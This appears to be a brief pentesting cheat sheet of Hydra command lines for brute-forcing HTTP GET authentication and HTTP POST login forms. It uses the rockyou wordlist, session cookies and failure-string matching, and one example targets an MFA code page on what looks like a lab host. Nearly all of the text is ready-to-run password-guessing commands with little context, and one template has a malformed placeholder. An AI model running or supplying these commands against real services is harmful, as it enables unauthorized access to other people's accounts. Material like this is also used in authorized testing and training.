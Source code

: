 https://www.hackingarticles.in/a-detailed-guide-on-hydra/
##### Bruteforce HTTP-Get
```
hydra -l USER -P /usr/share/wordlists/rockyou.txt IP -s PORT http-get /PATH`
```

##### Bruteforce HTTP-Post-form
Post entire Burp Suite output for the variables
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER&password=^PASS^:F=Invalid Password!"`
With cookie:
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER^&password=^PASS^:H=Cookie\: PHPSESSID=vi1l68d78tdu4c84uajqdjula4:F=fail"`

```
hydra -l jason -P list.txt 10.10.204.240 http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=l6jjj91qbp4867sesgnso2ti78; user=jason_test_account; pwd=abkr:Incorrect" -I -V
```

```
	hydra -l username -P list.txt IP_ADDR http-post-form "/PATH/VULN.PHP:PASSWORD_ARG=^PASS^:H=Cookie: COOKIE1=TESTl; COOKIE2=TEST2:INCORRECT_RET_VALUE" -I -V
```
Note: the "incorrect" must always be the last parameter
